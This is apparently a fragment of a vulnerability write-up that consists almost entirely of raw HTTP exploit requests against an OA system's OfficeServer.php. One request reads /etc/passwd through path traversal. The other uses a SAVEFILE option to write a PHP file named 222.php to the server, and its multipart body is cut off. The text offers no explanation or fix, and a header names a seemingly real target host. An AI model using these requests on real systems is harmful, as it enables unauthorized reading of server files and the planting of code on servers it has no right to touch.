 ```bash
GET /static/lib/weboffice/js/OfficeServer.php?FormData={%22OPTION%22:%22LOADFILE%22,%22FILEPATH%22:%22/../../../../../../../../../../../etc/passwd%22} HTTP/1.1
Host: xxxx
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://oa1.shuidinet.com/index.php/oa/main/login
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

[![](assets/1709083162-bb5fa3b3cc0eda7ebf6aba300fcd4e9e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227110341-cf711ab8-d51c-1.png)

```bash
POST /static/lib/weboffice/js/OfficeServer.php?FormData={%22OPTION%22:%22SAVEFILE%22,"FILEPATH":"/222.php"} HTTP/1.1
Host: xxxx
Content-Length: 202
Cache-Control: max-age=0
sec-ch-ua: 
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: ""
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQayVsySyhSwgpmLk
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
```